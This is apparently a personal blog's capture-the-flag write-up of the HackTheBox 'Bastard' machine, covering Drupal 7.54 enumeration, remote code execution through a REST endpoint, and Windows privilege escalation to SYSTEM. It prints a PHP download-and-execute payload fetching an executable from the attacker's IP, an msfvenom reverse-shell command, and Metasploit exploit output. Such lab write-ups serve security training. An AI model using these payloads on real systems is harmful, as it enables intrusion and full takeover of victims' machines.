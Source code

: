 ```yaml
---
layout: post
title:  "HackTheBox - Bastard"
date:   2017-12-25 21:50:00 +0100
categories: hackthebox
image:
  feature: bastard.jpg
  credit:
  creditlink:
---
```

This post describes multiple attacks upon the Bastard box on [hackthebox.eu](http://hackthebox.eu).  I've found myself updating and transferring my old blog in some of the dead hours of today and Piers Morgan somehow made it on the Netflix special I was watching with the family.  Couldn't resist a dig!

Introduction
==========
Bastard is very much a box about understanding your environment much in the same vein as Optimum.  In fact I would say this box is a good follow up to Optimum as it takes a lot of the lessons from that box but makes it a little bit harder.

Enumeration
==========
Nmap
--------
```bash
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
```

Instantly we know two things about this box.  It's running Drupal and the host is windows.  This does affect getting a shell slightly, as I'd been so used to returning a shell on Linux LAMP stack boxes that I was sending incorrect shells most of the time.  Despite the name however, this isn't as bad as it sounds.  You'll take a lot of lessons from this device that will go into exploiting harder boxes.

So, looking around we quickly realise that this version of Drupal is 7.54.  This is fairly recent but not ridiculously so.  Checking exploit-db also only yields one applicable exploit.  [](https://www.exploit-db.com/exploits/41564/)

I won't go in depth on how this exploit works, but the cliff-notes are that it attacks a REST endpoint created by the services extension.  To exploit we just need to find out the name of the REST endpoint (security through obscurity).  Honestly, exploiting this is simply a case of reading the exploit and the attached write-up. 

So to find the rest-endpoint just fire up your favourite web directory scanner and let 'er rip.  This one took a while, but in the end we found it, it's just /rest.  So change the endpoint to /rest and then the payload is uploaded to the server.  You can either replace it with your own in the exploit file, giving you an instant shell, or you can use the default one to get a shell.

Exploitation
-------------

So now we have the rest endpoint location, we just need to run it on the directory we found.  This uploads a php backdoor which will execute any php we send in a post request.  Adjusting the payload is quite finnicky considering what we're working with is a windows server, so in cases like that I use the below:
```php
file_put_contents("meta.exe", fopen("http://10.10.13.182/metasploit_https.exe", 'r'));
shell_exec('meta.exe');
```
This will download an executable shell from a http web server and then execute it.  To generate a shell msfvenom is as always our go to:
```bash
msfvenom -p windows/meterpreter/reverse_https -f exe LHOST=10.10.13.182 LPORT=4443 > metasploit_https.exe
```
Set up a listener and we're returned a shell.


Privilege Escalation
===============

For this, we run the metasploit exploit suggester and come across a number of candidate metasploit exploits.  The below will show exploiting ms15_051_client_copy_image:
```bash
msf exploit(ms15_051_client_copy_image) > show options

Module options (exploit/windows/local/ms15_051_client_copy_image):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  8                yes       The session to run this module on.


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.117.134  yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows x64


msf exploit(ms15_051_client_copy_image) > set SESSION 9
SESSION => 9
msf exploit(ms15_051_client_copy_image) > set lhost 10.10.13.182
lhost => 10.10.13.182
msf exploit(ms15_051_client_copy_image) > exploit

[*] Started reverse TCP handler on 10.10.13.182:4444 
[*] Launching notepad to host the exploit...
[+] Process 1956 launched.
[*] Reflectively injecting the exploit DLL into 1956...
[*] Injecting exploit into 1956...
[*] Exploit injected. Injecting payload into 1956...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Command shell session 10 opened (10.10.13.182:4444 -> 10.10.10.9:50058) at 2017-06-20 09:03:20 +0100

Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\drupal-7.54>whoami
whoami
nt authority\system
```
We have System!
